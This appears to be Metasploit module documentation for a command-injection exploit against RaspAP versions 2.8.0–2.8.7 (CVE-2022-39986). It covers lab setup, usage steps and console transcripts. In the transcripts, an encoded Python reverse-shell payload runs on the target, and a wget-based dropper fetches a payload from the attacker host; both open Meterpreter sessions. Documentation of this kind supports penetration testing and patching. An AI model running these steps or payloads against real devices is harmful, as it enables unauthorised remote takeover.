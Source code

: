 ## Vulnerable Application

RaspAP is feature-rich wireless router software that just works
on many popular Debian-based devices, including the Raspberry Pi.

A Command injection vulnerability in RaspAP versions 2.8.0 thru 2.8.7 allows
unauthenticated attackers to execute arbitrary commands via the cfg_id
parameter in /ajax/openvpn/activate_ovpncfg.php and /ajax/openvpn/del_ovpncfg.php.

This Metasploit exploit module targets a command injection vulnerability (CVE-2022-39986) in RaspAP's web-gui PHP project,
The vulnerability affects versions of `RaspAP` between `2.8.0` and `2.8.7`. By exploiting this flaw, an attacker can execute
arbitrary commands in the context of the user running RaspAP. This issue was discovered and reported by Ismael0x00.
Check [here](https://medium.com/@ismael0x00/multiple-vulnerabilities-in-raspap-3c35e78809f2) for the original writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. Follow the manual installation steps given [here](https://docs.raspap.com/manual/)
2. After setting up the service, navigate to the `/var/www/html` directory
3. Do `git checkout 2.8.0` for switching to the vulnerable version

**Note: Project can also be installed inside a ubuntu/debian docker containers**

## Verification Steps

1. msfconsole
2. Do: `use exploit/unix/http/raspap_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`

## Options

## Scenarios

### Debian 12, Unix Command Target
```
msf > use exploit/unix/http/raspap_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(unix/http/raspap_rce) > set rhosts 172.16.199.130
rhosts => 172.16.199.130
msf exploit(unix/http/raspap_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(unix/http/raspap_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix Command with echo exec\(__import__\(\'zlib\'\).decompress\(__import__\(\'base64\'\).b64decode\(__import__\(\'codecs\'\).getencoder\(\'utf-8\'\)\(\'eNo9UE1LxDAQPTe/IrckGMNmqZVdrCDiQUQEd28i0iajhqZpSLJaFf+7DVmcwwxv5s2bDzP6KSQcJzVA4t/W9LzvIjQ1jykcVOLJjIBep4BnbBwOnXsDKldsi6oUvhZfxbY0ixLomh/x7uH67mW3f7y5umeZJ9TkHKhEKZHnayEbITcbIQmvF2OZ0gfoBlTBrMCnrJ2Hi2gBPD1jyLZlJ3FwvlMDJZe3hEcRQH3QReBp9Yx0e8SWoc93YwFbcFSzC7vI6ZP/6mlJMwQzKJrPFhrUNPoAMdLyAdE3dU5qyEz+QyLZxl+G/gDVz18D\'\)\[0\]\)\)\) | exec $(which python || which python3 || which python2) -
[*] Sending stage (24772 bytes) to 172.16.199.130
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.130:48494) at 2023-08-14 20:38:21 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : debian
OS           : Linux 6.1.0-10-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-2 (2023-07-27)
Architecture : x64
Meterpreter  : python/linux
meterpreter > 
```

### Debian 11, Linux Dropper Target
```
msf > use exploit/unix/http/raspap_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(unix/http/raspap_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(unix/http/raspap_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf exploit(unix/http/raspap_rce) > set target 1
target => 1
msf exploit(unix/http/raspap_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper
[*] Using URL: http://172.17.0.1:8080/cH0NvADRgGYZoL
[*] Client 172.17.0.2 (Wget/1.21) requested /cH0NvADRgGYZoL
[*] Sending payload to 172.17.0.2 (Wget/1.21)
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:48940) at 2023-08-10 00:37:27 +0200
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > getuid 
Server username: www-data
meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Debian 11.6 (Linux 6.4.7-hardened1-2-hardened)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
